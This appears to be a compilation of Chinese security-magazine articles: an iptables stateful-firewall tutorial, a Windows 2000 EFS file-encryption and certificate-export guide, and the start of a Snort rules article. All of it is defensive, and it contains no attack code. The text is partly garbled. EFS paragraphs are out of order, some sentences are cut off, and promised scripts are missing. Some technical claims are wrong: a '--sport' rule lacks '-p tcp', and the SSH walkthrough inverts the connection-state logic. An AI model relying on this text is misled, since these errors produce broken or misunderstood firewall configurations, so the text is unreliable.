在本示例中，假设我们正在为有两个网络接口 eth0 和 eth1 的机器设计防火墙。eth0 网卡连接到 LAN，而 eth1 网卡连接到 DSL 路由器，这是与因特网的连接。对于这种情况，通过添加以下几行命令就可以改进我们的“终极防火墙”：

```bash
iptables -P INPUT DROP
iptables -A INPUT -i ! eth1 -j ACCEPT
```

这行附加的“iptables -A”将一个新的包过滤规则添加到 INPUT 链的末端。添加此规则之后，INPUT 链就包含了一个规则和缺省删除策略。现在，让我们看一下这个半成品防火墙有什么功能。当包进入任何一个接口（lo、eth0 或 eth1）时，netfilter 代码会将它定向到 INPUT 链，并检查该包是否与第一个规则匹配。如果匹配，则接受包，并且不再执行处理。如果不匹配，则实施 INPUT 链的缺省策略，废弃（删除）该包。

那是概念性的概述。具体情况下，第一个规则会匹配来自 eth0 和 lo 的所有包，并立即允许它们进入。而所有来自 eth1 的包都将被删除。因此，如果我们在机器上启用这个防火墙，它可以与 LAN 交互，但却会彻底断开因特网连接。让我们看一些启用因特网通信流的方法。

显然，如果要使防火墙变得实用，需要有选择性地允许某些进入包经由因特网到达机器。有两种方法可以使防火墙开放到实用的程度，一种是使用静态规则，另一种是使用动态规则，即有状态规则。

让我们使用下载网页作为示例。如果想要机器能够从因特网下载网页，可以添加一个静态规则，此规则永远允许每个进入 HTTP 包，不管它来自何处：

```bash
iptables -A INPUT --sport 80 -j ACCEPT
```

由于所有标准 Web 通信流都来自源端口 80，实际上此规则允许机器下载网页。虽然可以勉强接受这种传统方法，但是它却有许多问题。

这里有个问题：虽然大多数 Web 通信流来自端口 80，但有些不是这样。因此，虽然此规则在大部分时间中有效，但仍有少量情况并不适用。例如，你可能看到过类似“http://www.hacker.com:81”的 URL。这个 URL 示例通过端口 81 连接到网站，而不是缺省端口 80，因此在防火墙后面就看不到这个网站。

但是，这个规则的主要问题与安全性相关。的确，只有使用源端口 80 的通信流才能通过我们的防火墙。但是包的源端口并不是我们所能控制的，闯入者可以轻易地改变它。例如，如果闯入者知道我们的防火墙是如何设计的，他只要确保其所有进入连接都来自其机器的 80 端口，就可以绕过我们的防火墙。由于这个静态防火墙规则很容易被利用，因此需要一个更安全的动态方法。幸好 Iptables 和内核 2.4 提供了启用动态、有状态过滤所需要的一切条件。

与其在基于静态协议特征的防火墙上开一个洞，还不如使用 Linux 新的连接跟踪功能来使防火墙根据包的动态连接状态做出判定。conntrack 通过将每个包与一个独立的双向通信信道或连接相关联来进行判定。

例如，设想一下，当使用 Telnet 或 SSH 连接远程机器时会发生什么情况？如果查看包级的网络通信流，你所看到的是许多包从一台机器传递到另一台机器。但是，从更高级别的角度看，这种包交换是你的本地机器与远程机器之间的双向通信信道。传统（过时）的防火墙只看到独立的包，并没有看出它们实际上是一个更大的整体（连接）的一部分。

这就是产生连接跟踪技术的原因。Linux 的 conntrack 功能可以“看到”正在发生的更高级别的连接，从而将 SSH 会话看作是单一的逻辑实体。conntrack 甚至可以将 UDP 和 ICMP 包交换看作是逻辑“连接”，即使 UDP 和 ICMP 实际上是非连接方式；这是非常有用的，因为它可以让我们使用 conntrack 来处理 ICMP 和 UDP 包交换。

如果已经重新启动，并且正在使用支持 netfilter 的新内核，那么通过输入“cat /proc/net/ip_conntrack”可以查看您的机器参与的活动网络连接。即使没有配置防火墙，Linux 的 conntrack 功能也可以在幕后工作，跟踪你的机器参与的连接。

conntrack 不仅能识别连接，它还可以将它看到的包分成 4 种连接状态。我们将要讨论的第一种状态叫作 NEW。输入“ssh remote.host.com”时，初始包或源自于你的机器并要发送到 remote.host.com 的包都处于 NEW 状态。但是，即使只从 remote.host.com 接收到一个应答包，那么就立即不再将其他作为此连接的一部分、发送至 remote.host.com 的包看作是 NEW 包。因此，只有在建立新连接，并且还没有从远程主机接收到通信流时使用的包才被看作是 NEW（当然，这个包是此特定连接的一部分）。

我们已经描述了外出 NEW 包，但还有可能会有进入 NEW 包（很常见）。进入 NEW 包通常来自远程机器，在启动与你的连接时使用。你的 Web 服务器接收到的初始包（作为 HTTP 请求的一部分）将被看作是进入 NEW 包；但是，只要你应答了一个进入 NEW 包，所接收到的与此特定连接相关的其他包都不再被看作是处于 NEW 状态。

一旦连接看到两个方向上都有通信流，与此附加相关的其它包都被看作处于 ESTABLISHED 状态。NEW 和 ESTABLISHED 之间的区别很重要，我们稍后将做讨论。

第三种连接状态类别叫作 RELATED。RELATED 包是那些启动新连接，但又与当前现有连接相关的包。RELATED 状态可以用于调整组成多重连接协议（如 FTP）的连接以及与现有连接相关的错误包（如与现有连接相关的 ICMP 错误包）。

最后是 INVALID 包——那些包不能归入以上三种类别。应当注意某个包是否被看作 INVALID，因为这种包不会被自动废弃。因此，你需要插入适当的规则，并设置链策略，以便可以正确处理这些包。

好，我们已经掌握了连接跟踪，现在来看一下能够使这个没有功能的防火墙变得非常有用的一个附加规则：

```bash
iptables -P INPUT DROP
iptables -A INPUT -i ! eth1 -j ACCEPT
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
```

当输入到现有 INPUT 链的末端时，这个单一规则可以让我们建立与远程机器的连接。其工作方式如下：

假设我们要 SSH 到 remote.host.com。输入“ssh remote.host.com”之后，我们的机器发送出一个包来启动连接。这个特定包处于 NEW 状态，防火墙允许它外出，因为我们只阻拦进入防火墙的包，而不是外出的。

当收到来自 remote.host.com 的应答包时，这个包沿着我们的 INPUT 链流动。它不匹配第一个规则（因为它来自 eth1），因此它继续移动到下一个，也是最后的规则。如果它匹配此规则，则接受它；如果不匹配，则它会落到 INPUT 链的末端，并对它应用缺省策略（DROP）。那么，这个进入应答包会被接受，还是会落到底呢？

答案是被接受。当内核检查这个进入包时，它首先认出这个包是现有连接的一部分。然后，内核需要判定这是 NEW 还是 ESTABLISHED 包。由于这是个进入包，它查看这个连接是否有外出通信流，结果发现有外出通信流（我们发送的初始 NEW 包）。因此，这个进入包被归入 ESTABLISHED 类，就像其他接收到或发送的与此连接关联的包。

现在，考虑一下，如果远程机器上的某个人尝试 SSH 到我们的机器，会发生什么情况。我们接收到的初始包属于 NEW 类，它不匹配规则 1，因此它前进到规则 2。由于这个包处于 ESTABLISHED 或 RELATED 状态，它将跌落到 INPUT 链的末端，于是将对它应用缺省策略 DROP。进入 SSH 连接请求将被删除，而且没有我们的应答（或 TCP 复位）。

那么，目前我们的防火墙怎么样？如果你不要因特网上的任何人与您连接，但又需要连接到因特网上的站点，那么，此防火墙非常适用于膝上型计算机或工作站。你可以使用 Netscape、IE、FTP、ping，执行 DNS 查找及更多操作。你启动的任何连接都将返回到防火墙。但是，任何来自因特网的未经请求的连接都将被删除，除非它与你启动的现有连接相关。只要不需要对外提供任何网络服务系统，它就是个几乎完美的防火墙。

以下是一个简单脚本，它可以用于建立／拆毁第一个基本工作站防火墙：

```bash
#!/bin/bash
# A basic stateful firewall for a workstation or
# laptop that isn't running any
# network services like a web server, SMTP server,
# ftp server, etc.

if [ "$1" = "start" ]
then
    echo "Starting firewall..."
    iptables -P INPUT DROP
    iptables -A INPUT -i ! eth1 -j ACCEPT
    iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
elif [ "$1" = "stop" ]
then
    echo "Stopping firewall..."
    iptables -F INPUT
    iptables -P INPUT ACCEPT
fi
```

如果使用这个脚本，可以通过输入“./firewall stop”来停止防火墙，通过输入“./firewall start”再启动它。如果要停止防火墙，使用“iptables -F INPUT”将规则清除出 INPUT 链，然后使用“iptables -P INPUT ACCEPT”命令使缺省 INPUT 策略切换回 ACCEPT。现在来看一下可以对现有工作站防火墙进行的一些改进。在我说明了所有改进之后，我将向你显示最后的工作站防火墙脚本。然后，就开始为服务器定制防火墙。

如果使用 Linux 机器作为路由器，那么应该启用 IP 转发，它给予内核许可权，以允许包在 eth0 和 eth1 之间传递，反之亦然。在我们的配置示例中，eth0 连接到 LAN，eth1 连接到因特网，在允许 LAN 经由 Linux 机器连接因特网时，启用 IP 转发是必要步骤。要启用 IP 转发，请使用以下命令：

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

目前，我们已经删除了所有来自因特网的未经请求的通信流。虽然这是一种阻止讨厌的网络活动的有效方法，但是它有一些缺点。这种方法最大的问题是闯入者很容易就可以检测到我们正在使用防火墙，因为我们的机器没有应答标准 TCP 复位和 ICMP 端口不可到达响应——一般机器会发送响应，用于表示对不存在服务的连接失败。

与其让潜在的闯入者知道我们在运行防火墙（等于在提示他们，我们正在运行一些他们不能得到的有价值服务），还不如假装我们根本没有运行服务。通过将以下两个规则添加到 INPUT 链的末端，可以成功地完成此项任务：

```bash
iptables -A INPUT -p tcp -i eth1 -j REJECT --reject-with tcp-reset
iptables -A INPUT -p udp -i eth1 -j REJECT --reject-with icmp-port-unreachable
```

第一个规则负责正确传递 TCP 连接，而第二个规则处理 UDP。只要这两个规则就位，闯入者就很难检测到我们运行了防火墙。但愿这会使闯入者离开我们的机器，转而搜索其他更潜在的目标以供他滥用。

除了使防火墙变得更“隐藏”，这些规则还消除了由于连接到某些 FTP 和 IRC 服务器带来的延迟。这个延迟是由于服务器对你的机器执行身份查找（连接到端口 113）而引起的，并最终（大约 15 秒之后）导致超时。现在，防火墙将返回 TCP 复位，身份查找将立即失败，而不是重试 15 秒。

```bash
for x in lo eth0 eth1
do
  echo 1 > /proc/sys/net/ipv4/conf/${x}/rp_filter
done
```

此 Shell 脚本将告诉内核删除接口 lo、eth0 和 eth1 上所有受到欺骗的包。可以将以上行添加到防火墙脚本中，也可以将它们添加到创建 lo、eth0 和 eth1 接口的脚本中。

NAT（网络地址转换）和 IP 伪装虽然与防火墙没有直接关系，但通常与防火墙一起使用。我们将讨论你可能需要使用的两种常用 NAT／伪装配置。第一个规则负责处理那种用拨号连接到使用动态 IP 的因特网（ppp0）的情况：

```bash
iptables -t nat -A POSTROUTING -o ppp0 -j MASQUERADE
```

如果你属于这种情况，那么还应该转换防火墙脚本，将“eth1”（我们的示例 DSL 路由器）更改成“ppp0”。如果 ppp0 还不存在，最好添加引用“ppp0”的防火墙规则。只要创建了 ppp0，就会正常工作。请确保还启用了 IP 转发。

如果使用 DSL 来连接因特网，那么你或许有两种可能配置中的一种。一种可能性是 DSL 路由器或调制解调器有其自己的 IP 号码，并为你执行网络地址转换。如果是这种情况，那么就不需要 Linux 来执行 NAT，因为 DSL 路由器已经这样处理了。

但是，如果想要更多地控制 NAT 功能，也许应该与 ISP 讨论关于 DSL 连接的配置，以便使你的 DSL 连接处于“桥接方式”。在桥接方式中，防火墙将成为 ISP 的网络中的正式部分，DSL 路由器将会在 ISP 和你的 Linux 机器之间透明地来回转发 IP 通信流，而不会让任何人知道它的存在。它不再拥有 IP 号码。事实上，eth1（在我们的示例中）隐藏了 IP。如果有人从因特网上 ping 你的 IP，他们将从你的 Linux 机器上得到应答，而不是路由器。

使用了这种设置，就应该使用 NAT（源 NAT），而不是伪装。以下就是你应该添加到防火墙的一行代码：

```bash
iptables -t nat -A POSTROUTING -o eth1 -j \
SNAT --to 1.2.3.4
```

```text
2728 170K SNAT all -- any eth1 anywhere \
anywhere to:215.218.215.2
```

在这个示例中，应该将 eth1 更改成直接连接到 DSL 路由器的以太网接口，1.2.3.4 应该更改成静态 IP（以太网接口的 IP）。再次声明：请记住要启用 IP 转发。

幸好，NAT 和伪装与防火墙能够和睦相处。在编写防火墙过滤规则时，应忽略正在使用 NAT 的事实。你的规则应该根据包的“真正”源地址和目的地址接受、删除或拒绝它们。防火墙过滤代码能够看到包的源地址以及最终目的地址。这对我们很有用处，因为它可以让防火墙继续正常工作，即使我们暂时禁用了 NAT 或伪装。

在以上的 NAT／伪装示例中，我们将规则附加到链，但还做了一些略有不同的事。请注意“-t”选项。“-t”选项可以让我们指定链所属的表。当省略这个选项时，缺省表将缺省为“filter”。因此，以前所有与非 NAT 相关的命令修改“filter”表中的 INPUT 链。“filter”表包含了所有与接收或拒绝包相关的规则，而“nat”表（如你假设的）包含了与网络地址转换相关的规则。还有其他内置 iptables 链，在 iptables 帮助页面以及 Rusty 的 HOWTO 中详细描述了这些链。

现在已经讨论过一些可能的增强，让我们看一下第二种更灵活的防火墙启动／停止脚本：

在开始定制防火墙以便可以在服务器上使用它之前，我需要演示如何列出当前活动的防火墙规则。要查看过滤器表的 INPUT 链中的规则，输入：

```bash
# iptables -v -L INPUT
```

`-v` 选项给出一个冗长的输出，这样我们可以查看每个规则传送的总包数和总的字节数。还可以使用以下命令查看 nat POSTROUTING 表：

```bash
# iptables -t nat -v -L POSTROUTING
Chain POSTROUTING (policy ACCEPT 399 packets, 48418 bytes)
```

现在，防火墙不允许陌生人连接我们机器上的服务，因为它只接受进入 ESTABLISHED 或 RELATED 包。由于它删除了所有进入 NEW 的包，因此所有连接尝试都将被无条件拒绝。但是，只要有选择地允许一些进入通信流通过防火墙，我们就可以让陌生人连接到我们指定的服务。

虽然我们要接受一些进入连接，但我们可能并不想接受所有进入连接。最好从“缺省拒绝”策略开始（就像我们现在使用的策略），逐渐开放对那些希望人们可以连接的服务的访问。例如，如果正在运行 Web 服务器，我们允许 NEW 包进入我们的机器，只要它们去往端口 80（HTTP）。那就是我们需要做的。一旦允许 NEW 包进入，我们就允许建立连接。一旦建立了连接，就匹配了允许进入 ESTABLISHED 和 RELATED 包的现有规则，从而 HTTP 连接将变得畅通无阻。

让我们看一下防火墙的“核心”以及允许进入 HTTP 连接的新规则：

```bash
iptables -P INPUT DROP
iptables -A INPUT -i ! ${UPLINK} -j ACCEPT
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
# our new rule follows
iptables -A INPUT -p tcp --dport http -m state --state NEW -j ACCEPT
iptables -A INPUT -p tcp -i ${UPLINK} -j REJECT --reject-with tcp-reset
iptables -A INPUT -p udp -i ${UPLINK} -j REJECT --reject-with icmp-port-unreachable
```

这个新规则允许去往我们机器的端口 80（http）的 NEW TCP 包进入。请注意这个规则的位置，它出现在 REJECT 规则前面有重要意义。由于 iptables 将应用第一个匹配的规则，因此将它放到 REJECT 行的后面会使这个规则无法生效。

现在来看一下最后的防火墙脚本，它可以用于膝上型计算机、工作站、路由器或服务器（或者其中的某些组合）。

通常可以使防火墙变得“更好”一点。当然，是不是“更好”要根据各人的特殊需要而定。现有脚本可能会完全符合你的要求，但也可能需要进行附加调整。

目前，我们还没有讨论如何记录。有一种特殊目标 `LOG` 可以用于记录事物。在使用 `LOG` 时，有一个特殊选项 `--log-prefix` 可以让你指定在包转储到系统日志时出现的一些文本。以下是一个日志规则示例：

```bash
iptables -A INPUT -j LOG --log-prefix "bad input!"
```

不应将它作为第一个规则添加到 `INPUT` 链中，因为这将会为你接收的每个包都记录一个记录项。事实上，应该将日志规则放到 `INPUT` 链的底层，以便记录漏掉的包和其他异常。

以下是关于 `LOG` 目标的重要注意事项：通常，当一条规则匹配时，会接受、拒绝或删除某个包，不会再处理其他规则。但是，当日志规则匹配时，则会记录这个包，但是却不会接受、拒绝或删除它。事实上，包会继续移动到下一个规则。如果日志规则是链中的最后一个规则，那么将应用缺省链策略。

`LOG` 目标还可以与“limit”模块组合（在 iptables 帮助页面中描述），以使重复记录项最小化。以下是一个示例：

```bash
iptables -A INPUT -m state --state INVALID -m limit --limit 5/minute -j LOG --log-prefix "INVALID STATE:"
```

有时候为了防止 DDoS 攻击，可以使用 limit 匹配扩展。limit 扩展是一个非常有用的匹配扩展。使用 `-m` 来指定，其后可以有两个选项：

- `--limit avg`：指定单位时间内允许通过的数据包的个数。单位时间可以是 `/second`、`/minute`、`/hour`、`/day` 或使用第一个字母，比如 `5/second` 和 `5/s` 是一样的，都是表示每秒可以通过 5 个数据包，缺省值是 `3/hour`。
- `--limit-burst number`：指定触发事件的阈值，缺省值是 5。

看起来好像有点复杂，就让我们来看一个例子。

假设有如下的规则：

```bash
iptables -A INPUT -p icmp -m limit --limit 6/m --limit-burst 5 -j ACCEPT

iptables -P INPUT DROP
```

然后从另一部主机上 ping 这部主机，就会发生如下的现象：

首先我们可以看到前 4 个包的回应都很正常，然后从第 5 个包开始，我们每 10 秒可以收到一个正常的回应。这是因为我们设定了单位时间（在这里是每分钟）内允许通过的数据包的个数是每分钟 6 个，也即每 10 秒钟一个；其次我们又设定了事件触发阈值为 5，所以我们的前 4 个包都是正常的，只是从第 5 个包开始，限制规则开始生效，故只能每 10 秒收到一个正常回应。

假设我们停止 ping，30 秒后又开始 ping，这时的现象是：

前两个包是正常的，从第 3 个包开始丢包，这是因为在这里允许一个包通过的周期是 10 秒，如果在一个周期内系统没有收到符合条件的包，系统的触发值就会恢复 1；所以假如我们 30 秒内没有符合条件的包通过，系统的触发值就会恢复到 3；假如 5 个周期内都没有符合条件的包通过，系统的触发值就会完全恢复。

iptables 还可以让你创建自己的用户定义链，可以将这个链指定成规则中的目标。如果想要了解如何完成此项任务，请花一些时间阅读 Rusty 的著作 `http://netfilter.samba.org/unreliable-guides/packet-filtering-HOWTO/index.html`。

对于那些想要对公司或高校 LAN 实施网络使用策略的人来说，防火墙提供了许多强大的功能。通过将规则添加到 `FORWARD` 链或设置 `FORWARD` 的策略，可以控制你的机器将转发什么包。通过将规则添加到 `OUTPUT` 链，还可以对由 Linux 机器自身的用户在本地生成的包采取什么操作。iptables 还有难以置信的能力，它可以根据所有者（UID 或 GID）来过滤本地创建的包。如需有关此项功能的详细信息，请在 iptables 帮助页面中搜索“owner”。

总之，iptables 是一个十分强大的工具，希望通过上面的例子能给大家带来帮助，如果有什么问题欢迎来信讨论。

### 用 Windows 2000 EFS 实现文件加解密

文／缥烟

不知道大家有没有这样郁闷的遭遇：你在你的笔记本里面或者公司的服务器里面存有一份非常重要的文档，使用了 Windows 2000 NTFS 文件系统，通过一些奇妙的安全配置，你的文件获得了足够的安全性（例如只有管理员才能访问等等）。但是，一个未经授权的非法用户却通过某种方式成功绕过你的配置；或者你心爱的本本被梁上君子光顾，你公司的服务器机房被蜘蛛侠之类的人士光顾等。而对这些情况该怎么办？此外，对于那些只有 User 组权限的朋友，有时候不想把自己的文档给其他用户浏览，怎么办？如果你是一个管理员，当你身处外地，但头头逼你交出一份加密文档，你又不想让头头知道管理员密码，怎么办？告诉你，你需要 NTFS 下一个重要安全特性的全力支持：EFS（加密文件系统）。使用 EFS，对于上面所说的一切，你将不再烦恼！

#### EFS 加密原理

Windows 2000 加密文件系统（EFS）让用户能够在本地计算机上给指定文件或文件夹加密，为本地存储的数据添加保护。EFS 自动为正在使用的文件加密并在文件存储时再次加密。除了为文件加密的用户和有 EFS 恢复证书的管理员，其他人都无法读取这些文件。由于加密机制已经内置在文件系统中，它的操作对用户是透明的而且很难攻击。EFS 对保护可能被盗的计算机，如膝上型电脑上的数据尤为有用。可在膝上型电脑上配置 EFS 以确保用户文档文件夹内的商业信息都已加密，即使有人想绕过 EFS 并试图使用低级磁盘工具读取信息，加密也能保护信息。

对于加密一个文件来说，EFS 有两个责任，一个是对文件加密，一个是对给文件加密的密钥加密。我们先来看看 EFS 给文件加密的过程。

EFS 使用扩展的美国数据加密标准（DESX）给文件加密，DESX 加密算法是由 Ronald Rivest 在 RSA 数据安全中首次阐明的（很多对数据加密算法有所研究的朋友一定还记得陈旧的 56 位加密算法 DES，美国边疆数据公司曾经创下了 20 小时破解 DES 的记录，从此以后，DES 安全性受到了越来越多的人的质疑。于是，美国又提出了 DESX 的标准），这位仁兄为了加强脆弱的 DES 算法，试图在保持该算法的速度和可输出性的前提下，使之对暴力破解攻击（字典穷举）具有更高的防御能力。我把 DESX 对文件加密的过程总结如下（具体步骤大家可以参考 Windows 2000 资源库相关内容）：

- 首先，将文件分成 64 位大小的若干个部分，每一部分称为一个块，并且使用一个 64 位的密钥对每个块进行加密（当你安装了 Windows 2000 SP2 之后，这个密钥长度将升级至 128 位。正常情况下，如果不利用强大的分布式计算，你想在有生之年看到暴力破解 128 位密钥的可能性是非常非常之小的），加密采用简单的异或（XOR）算法。
- 然后，使用一个独立的 56 位密钥对每一个已经加密的块进行加密，第一次使用的算法是标准的 DES 算法。
- 最后，使用另外一个 64 位的密钥对同一个块再进行一次异或加密。

使用这三个步骤组合起来的算法进行加密的文件，在面临暴力破解的时候，具有和标准 DES 加密算法一样的抵抗能力（看上去还是比较弱的，不过普通人士破解具有 128 位密钥长度的密钥可能性几乎没有）。而且，这种算法对密钥搜索攻击具有更强的防护能力。

（这是对密钥常用的破解攻击手段之一）抵抗是非常有效的！

当 EFS 给一个文件加密的时候，它将产生一个随机数作为 DESX 的密钥，这个随机数被称为文件密钥。在没有发布 SP2 之前，只有英文版的 Windows 2000 使用了 128 位长度的密钥，中文版是 64 位的。

此外，DESX 加密算法是一个对称算法，即加密和解密使用同一个密钥。这就意味着你在加密完文件之后，必须记住把你的密钥和授权恢复证书给导出来，不然你将会是非常郁闷的。我还记得前段时间在黑客防线论坛里看到一个朋友虽然给文件加了密，但他没把密钥和证书导出，结果重新安装系统后，发现他以前的加密文档无法打开了。如果你不想和这位朋友有一样的遭遇，不想被你的上司炒鱿鱼的话，就一定要记住加完密后，把你的密钥和授权恢复证书导出。导出之后，装有这个小证书的磁盘或者其他存储介质也不要到处乱放，你得养成一个良好的习惯，把这个重要的小东西妥善保管。

下面我们在某个 NTFS 分区的根目录下建立一个文本文档，里面随便写了一些字（图 2）。然后我们来看看对这个文本文档加密的过程：

右键单击 hack.txt，选择“属性”，弹出如图 3 所示对话框：请单击“高级”按钮，弹出如图 4 所示对话框：选中“加密内容以保护数据”复选框，单击“确定”后退出。此时，我们就完成了对 hack.txt 的加密。

#### 实战 Windows 2000：EFS 文件加密

关于 EFS 的话题我就说到这里，如果你对 EFS 加密算法很感兴趣的话，可以去微软的 Technet 查查相关资料。下面，我们就来实践 NTFS 下的 EFS。

在本例中，我的环境是 Windows 2000 Server + SP2，使用 Administrator 账户，对某一个处于 NTFS 分区的文本文档实施加密。该 NTFS 分区的安全配置如图 1 所示。

下面，我们来看看加密效果。我注销 Administrator，换用另外一个属于 User 组的用户 User1 登录，试图打开这个文档（图 5）。可以看到，访问被拒绝了。这种加密不但对管理员有效，对那些只有 User 权限的一般用户也是有效的。这意味着那些只有一般权限的用户也能通过 EFS 来对自己的文档实施加密，达到保护文件和个人隐私的目的。

为了能够说明 EFS 和我们以前说的 NTFS 访问权限的区别，我把我的 C 分区设置为 Everyone 组（任意用户）完全控制。然后，我在 C 盘的根目录下建立了一个文本文档。

到了这个时候，我估计 90% 以上的 Windows 2000 用户都会对我说，这个也太简单了吧。是啊，加密一个文件是非常简单的过程，但下面的过程对于部署 EFS 来说是至关重要的，也是一些初中级 Windows 2000 用户所不了解的，也就是导出用户密钥和授权访问证书。

#### 导出用户密钥和授权访问证书

这是成功实现 EFS 的关键步骤。下面，我们就来看看怎么把那个可爱的小证书和用户密钥给导出来。

首先，点击“开始／运行”，输入 MMC（或者在 CMD 下输入 MMC 也行）调出 Windows 2000 的控制台（图 6）。界面如图 7 所示。

很多人都不知道 MMC 有什么奇妙的用处，下面我们就来看看使用 MMC 来导出你的授权恢复证书和用户密钥。

点击控制台，“添加或者删除单元”，出现如图 8 所示界面。

单击“添加”，选择“证书”，单击“添加”（图 9），出现如图 10 所示的对话框：

请选择“我的用户账户”。在进行下一步之前，我来解释一下这三点的区别。

当我们装载证书管理单元的时候，该单元将会给我们如上的三种选项：

- 选择“我的用户证书”时候，将打开储存于用户的目录对象中的个人证书。同时也将打开用户个人配置文件中的证书，位于（我这里是 Administrator）

```text
C:\Documents and Settings\Administrator\
Application Data\Microsoft\SystemCertificates\
My\Certificates:
```

- 选择“服务账户”选项，将打开一个选择计算机的窗口，你可以选择一个将要安装证书管理单元的计算机。
- 选择“计算机账户”将打开一个选择计算机的窗口。你可以查看颁发给本地计算机的证书或者远程计算机的证书。一般情况下，安装 Windows 2000 专业版的机器没有个人证书。

现在我们展开控制台里面的证书管理服务，找到如图 11 所示的节点。

这个节点一般在证书－当前用户／个人／证书下，大家可以看到一个（或者更多）颁发给当前用户的证书。我们现在选择第一个证书导出。

图 12

选中该证书，单击右键，选择“所有任务”，导出（图 12）。然后弹出“导出证书向导”（图 13）。

图 13

单击“下一步”（图 14）。

图 14

一定要选择“导出私钥”，然后单击两次“下一步”（按默认配置），来到图 15 这个环节。

在这里输入解开／导入私钥和授权恢复证书的密码。

图 15

密码。我强烈建议你为你的小证书设定一个密码。这可以使你的小证书达到很高的安全性。试想一下，当你导出证书之后，没有设定密码，装有你证书的磁盘又落到了如狼似虎的同事手里，那是一件多么可怕的事情啊！因此，我强烈建议你为你的证书设定一个强壮的密码。

设定完口令后，单击“下一步”。输入你要导出的证书名称，随便写一个好记的就可以了，然后为你的证书指定一个存储路径。写完后单击“下一步”（图 16）。

图 16

做完这一步，我们的证书就安全导出了，打开“资源管理器”，找到刚才我们指定的证书存储路径，我们就能看到一个 hack.pfx 文件，那就是我们的宝贝证书（图 17）。

图 17

下面你要做的就是把这个宝贝收藏起来。为此，你得准备一张正版的磁盘，把这个小东西 COPY 进去，放到你办公桌或者保险柜的一个安全地方。

#### 配置 EFS 漫游

当然，在这里还有两个问题。一种情况是有

### 传输加密文件及 EFS 证书的常用方法

有时候你需要把你的加密文档弄到其他机器上去；其次，你必须得想办法把你的宝贝 EFS 证书也传输到其他机器上去，以让你能够访问你那些宝贝文件。我在这里说几个常用方法：

- 1. 备份到文件

  你不能直接 COPY 文件，但你可以利用 Windows 2000 备份工具把你的加密文件备份到一个备份文件中去。

- 2. 配置一个漫游配置文件

  传输用户的 EFS 证书最简单的办法是为用户配置一个漫游配置文件。EFS 证书是在这个配置文件中的。因此，当用户登录到另外一台机器上的时候，该证书也就被传输到这台计算机上了。

- 3. 授权用户访问你的加密文档 / 导入 EFS 证书

显然，你的宝贝证书是给你自己专门预备的。不过，平时，你使用 Administrator 登录来访问你用该账户加密的文档的时候，是不需要导入这些证书的。只有你在重新安装系统之后才需要。

此外，还有一种情况，你把一份重要的文档加密，而此时你正在国外考察，你的头头打电话要你交出该文档，并且怒气冲冲地问你为什么用他的账号登录却无法访问该文档。此时，你可不能傻里傻气地告诉他你电脑的管理员口令。你只需要告诉他在你办公桌的第二个抽屉里有一张磁盘，里面有那份文档的授权恢复证书，然后你把授权恢复口令告诉你的头头即可。而你的头头只需要做以下事情即可访问到那份机密文档（在本例里面，假定你的上司使用了 User1 账户登录你的计算机），这时候，你的头头会有一个正规的头衔，叫做数据恢复代理。

首先，他还是需要打开他的 MMC 控制台（开始，运行，MMC），然后和上面一样，单击“控制台”/“添加/删除管理单元”/选择用户证书，在“添加”里面选择“证书”，此时将没有上面那三项选择，只有一个“当前用户”，然后单击“确定”退出（图18）。

同样地，展开控制台里面的“证书管理服务”，找到“个人 / 证书”节点；单击右键，“所有任务”→“导入证书”，弹出证书导入向导（图19）。

单击“下一步”，弹出如图20对话框。

这时候，你需要定位证书的位置，可以是本地硬盘，或者软磁盘，或者其他什么位置，找到证书后单击“下一步”（图21）。

这时候，需要输入该证书的授权恢复口令，也就是我们上面设定的那个口令，输入完毕后，点击“下一步”（图22）。

按默认设置，单击“下一步”，如果没什么意外，证书将会被成功导入。这时候，回到那个加密文件，我这里是 Hack.txt，试着打开，你会发现原来拒绝访问的东西现在可以正常访问了（图23）。

图21

图22

图23

Hacker 破解，或者你忘记口令，你还可以利用其他管理员账号登录系统。否则，我下面说的一切都是废话。

- 2. 无论如何，你在给你的宝贝文件实施加密处理后，一定要按照上面说的办法导出你的授权恢复证书和你的密钥。不然，很有可能你就要和你的文件说再见了。

- 3. 一定要把你导出的证书妥善保管，有可能的话，用刻录机刻进光盘里头，或者存储于闪存盘（什么朗科优盘之类）。我不建议你存储在软盘里面，因为我对现在的软盘质量表示不信任。此外，你必须为这份证书准备多个拷贝，以备不时之需。

### 特别提示：丢失了 Administrator 账号后加密文件系统的灾难恢复

丢失了 Administrator 账号是一件很丢脸的事情，特别是你用这个账号为你的服务器配置了 EFS。Windows 2000 是一个让无数黑客目不转睛的系统，针对 Windows 2000 的攻击占所有黑客攻击的 70% 以上。因此，如果你不慎在与黑客的对话里败北，那么也就意味着你丢失了 Administrator，也意味着你将无法恢复你配置的 EFS。

### EFS 的灾难

就像前段时间我在黑防论坛里看到的那位不幸的朋友一样，丢失了 EFS 授权恢复证书，或者压根就忘了导出证书，这是一件灾难性的事情。这意味着你将不能再恢复用户加密的文件了。

如果真的很不幸，这样的倒霉事情发生在你的头上，请不要难过，因为你还有一次机会，那就是安装一个证书颁发机构（在 Windows 2000 Pro 下好像没有办法实现了）；然后使用“创建附加数据恢复代理”来为你的管理员账号重新创建新的证书。

当然，如果你在看到这篇文章的时候，这些倒霉事情没光顾你，你就必须为你的加密文件和你的电脑做些实质性的工作：

- （1）除了 Administrator，你必须创建其他的管理员用户。一旦你的 Administrator 账户被……

不过，如果你还有其他的管理员账号，而且这些账号在你和黑客的战斗之后还能存活的话，那么你还有希望把你的 EFS 从灾难中挽救回来，那就是创建附加数据恢复代理（附加 DRA）。

灾难恢复：利用 CA 服务器来为你当前管理员用户颁发一个文件恢复证书：

首先你必须给你的 Windows 2000 服务器安装证书服务，这项工作可以通过“添加/删除程序”的“添加/删除 Windows 组件”来完成。

若你顺利把证书服务安装完毕，那么，有两种方法可以将一个文件恢复证书导入到你指定的账号里去：

- 1. “组策略”控制台中有一个快捷方式，用于从 CA 服务器中获得证书，然后用它来把一个账号配置为数据恢复代理（DRA）。

- 2. 你也可以手动来完成。如果你当前这个账号已经有了一个数据恢复证书，你必须通过手动来把这个证书添加到数据恢复策略里面去。

关于使用组策略来配置新的数据恢复代理，大家可以参考微软的 Windows 2000 资源库，我在这里就不详细介绍了。

### Snort 用户手册（中）

#### ——编写 Snort 规则

承接上一期中笔者介绍的 Snort 概述，这是 Snort 用户手册的深入部分，主要针对 Snort 规则进行了详细的描述。

文 / sword

#### 一、基础

